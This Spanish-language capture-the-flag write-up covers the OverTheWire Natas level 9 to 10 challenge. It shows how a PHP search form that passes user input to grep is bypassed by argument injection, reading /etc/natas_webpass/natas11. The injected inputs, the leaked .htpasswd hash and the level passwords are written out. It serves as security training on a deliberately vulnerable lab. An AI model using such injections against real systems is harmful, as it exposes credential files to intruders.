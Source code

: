 #Natas Level 9 → Level 10

Username: natas10

URL:      http://natas10.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas10.natas.labs.overthewire.org** 
- **Usuario    : natas10**
- **Contraseña : nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu**

La contraseña la hemos sacado del nivel anterior.

Entramos a la página web y observamos que tenemos un **formulario** en el que nos pide que pongamos un **texto** en algún sitio para que lo muestre en el parámetro **output**

```html
For security reasons, we now filter on certain characters

Find words containing: 
Search

Output:
```

Nos comentan que han filtrado algunos caracteres por motivos de seguridad. Nostros probamos a introducir los mismos comandos de la prueba anterior y ver que es lo que pasa

```php
hola; cd ..;ls -l

Output:
Input contains an illegal character!
```

Efectivamente filtra los caracteres especiales. Sabemos que esos caracteres especiales tienen un valor equivalente

Miramos el código fuente y nos encontramos con el siguiente comando:

```php
 if(preg_match('/[;|&]/',$key)) 
````

Esta vez no nos dejarán utilizar esos valores **;** y **&** 

¿Que pasa si ponemos la mascara **Wildcard(.*)**  para que nos muestre cualquier valor con el comando **grep**?

```php
grep -i $key dictionary.txt
grep -i .* dictionary.txt
```
Vemos que nos devulve el contenido de todo el fichero.txt! :smile:

Ahora que sabemos cual es el directorio donde se encuentrans las contraseñas de las pruebas, vamos a leer el contenido de la siguiente prueba:

```bash
/etc/natas_webpass/natas11
```

Preparamos el comando y lo ejecutamos:

```bash
.* /etc/natas_webpass/natas11
```

Nos devuelve mucho texto, entre ellos la contraseña del siguiente nivel

```bash
Output:
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$lakjx13m$ad/my0s9fiCraK3OrKhGc.
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
...
```

**FLAG** = {U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK}
